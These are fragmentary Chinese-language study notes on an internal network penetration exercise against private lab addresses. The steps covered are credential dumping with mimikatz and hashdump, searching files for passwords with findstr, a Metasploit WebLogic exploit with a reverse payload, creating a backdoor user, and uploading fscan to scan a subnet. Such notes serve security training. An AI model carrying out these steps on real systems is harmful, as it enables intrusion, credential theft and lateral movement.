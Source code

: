 ### 密码收集—mimikatz  + msf  ???  搜 【】
#### 浏览器密码工具
电脑密码： hashdump等 【】

chrome://settings/passwords
火狐：about:logins

win下： dir /b /s config.*, *.properties,【JAVA 数据库中间件，含有密码】 *password*   

findstr /si password *.*   【】文件名被修改时，搜不到文件名，搜文件内容！

findstr /si properties *.*  
如果搜到内容太多，可以把关键词组合起来 【我搜到的内容很少！乱码！看不到明文文本】


【】实例管理 攻防平台 ??? 

10.20.24.200:2333  【】 ???

##### 数据库中常见：
 jdbc:mysql:10.2.1.219:data
username=
password=

搜上述IP!

## msf + weblogic + hashdump 获取10.2.2.21的密码!

###### msf 选择 2019  excellent yes 【利用weblogic模块 701攻入目标机器10.2.2.9，可以执行shell，可以hashdump -- 】

search weblogic【】!!! --7001

use 10 【2019年 excellent yes】

weblogic 命令行下载  

>show target : 查看是否可以unix win方式 
set target  1   【】
最好用反向payload！

返回 meterpreter session 2 



## 获取10.2.2.21所在的第一层内网信息

扫描内网主机10.2.2.9 / 后来改为.21--及其端口、密码
的工具：1、fscan     2、弱口令工具


第三方工具 02-fscan.exe，github.com, 专用于内网渗透【】go语言，并发量很高，自身作为服务器??? 扫描很快
工具直接上传待扫描的机器上

https://github.com/shadow1ng/fscan


### 上传文件到10.2.2.21的两种思路方法：
#### 1、meterpreter中upload 【】
#### 2、创建新用户+远程登录
--msf中运行shell, 
--创建一个用户！【】
显示乱码可以修改一个30000的数字 ??? 
chmod
--以新用户身份，远程桌面登录10.2.2.9
--上传fscan
--查看ipconfig, 
开启管理员权限的cmd.exe
fs.exe -h 192.168.23.0/24